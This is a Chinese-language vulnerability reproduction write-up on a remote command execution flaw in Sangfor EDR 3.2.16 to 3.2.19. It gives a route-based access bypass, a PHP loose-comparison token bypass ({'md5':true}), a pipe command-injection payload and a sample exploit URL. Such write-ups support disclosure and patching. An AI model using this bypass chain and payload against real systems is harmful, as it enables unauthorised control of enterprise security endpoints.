 深信服 终端检测相应平台（EDR） 任意命令执行漏洞（二）
=====================================================

一、漏洞简介
------------

二、漏洞影响
------------

深信服EDR 3.2.16

深信服EDR 3.2.17

深信服EDR 3.2.19

三、复现过程
------------

![1.jpg](./resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId24.jpg)

dev\_linkage\_launch.php
为设备联动的新入口点主要是将联动的接口构造成业务统一处理的接口

主要调用

![2.jpg](./resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId25.jpg)

跟进

![3.jpg](./resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId26.jpg)

可以看到 第一个检查为 \$req\_url = \$\_SERVER\['PHP\_SELF'\];

绕过第一个检查:

在他们系统nginx配置文件里面:

![4.jpg](./resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId27.jpg)

**通过nginx规则可以得知**\*\*,**他们没有设置禁止外网访问**.\*\***从而可以直接访问**

/api/edr/sangforinter/v2/xxx 绕过 第一个检查

**第二检查**\*\*:\*\* **权限检查**

![5.jpg](./resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId28.jpg)

跟进check\_access\_token

![6.jpg](./resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId29.jpg)

**这里\*\*\*\*if(\$md5\_str == \$json\_token\["md5"\])**
**引发第二个漏洞**\*\*: php\*\*\*\*弱类型导致的漏洞\*\*

**绕过只需要传入一个base64编码的json内容为**
\*\*{"md5":true}\*\***即可**

**至此** **权限检查绕过完毕**

**来到** process\_cssp.php 文件

![7.jpg](./resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId30.jpg)

存在任意指令执行漏洞.作者试图使用escapeshellarg函数去给单引号打反斜杠实际上是毫无作用的.`https://www.0-sec.org:8443//api/edr/sangforinter/v2/cssp/slog_client?token=eyJyYW5kb20iOiIxIiwgIm1kNSI6ImM0Y2E0MjM4YTBiOTIzODIwZGNjNTA5YTZmNzU4NDliIn0=`

绕过:`{“params”:”|命令”}`

结果如下:

![WechatIMG18.jpeg](./resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(二)/media/rId31.jpg)
